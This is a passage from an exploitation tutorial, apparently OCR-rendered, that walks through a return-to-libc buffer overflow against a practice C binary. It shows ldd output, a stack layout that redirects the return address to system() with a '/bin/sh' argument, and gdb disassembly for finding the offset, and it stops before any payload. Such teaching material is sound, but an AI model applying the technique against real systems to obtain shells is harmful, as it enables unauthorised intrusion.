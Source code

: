 The C standard library (`libc`) is linked into all C programs. We can see that this is true for the above program:

```bash
$ ldd r2l1
        linux-gate.so.1 (0xf7fd2000)
        libc.so.6 => /lib/libc.so.6 (0xf7e06000)
        /lib/ld-linux.so.2 (0xf7fd3000)
```

We are going to exploit the buffer overflow vulnerability in the above program by turning the stack into this:


```
high addresses
    ===============
    |     ...     |
    |-------------|
    |    0x...    | <- address to a '/bin/sh' string
    |-------------|
    |    0x...    | <- address that `system()` will return to
    |-------------|
    |    0x...    | <- ret overwritten to address of `system()`
    |-------------|
    | aaaaaaaaaaa | <- overwritten saved frame pointer
    |-------------| <- bottom of stack
    | aaaaaaaaaaa |
    |             |
          ...       <- filled buffer
    |             |
    | aaaaaaaaaaa |
    |-------------| <- top of stack
    |   |  |  |   |
    |   v  v  v   |
    ===============
low addresses
```

The buffer is filled, and the saved frame pointer is overwritten by junk. ret will have the address of `system()`, making this the next function returned to. When `system()` executes, it will take the address of the '/bin/sh' string from the stack and execute it. Afterwards it will return to our specified address. We will use the address of `exit()`, since it allows us a clean exit (we could of course use some garbage value as the return address if we wanted the program to crash).

Open the program in gdb. Disassembling main reveals the number of bytes from the start of the buffer to the saved frame pointer:

```
(gdb) disas main
...
(gdb) disas cp
...
0x0804918f <+9>:     lea    -0x21(%ebp),%eax
0x08049192 <+12>:    push   %eax
0x08049193 <+13>:    push   $0x804a00c
0x08049198 <+18>:    call   0x8049060 <__isoc99_scanf@plt>
...
```

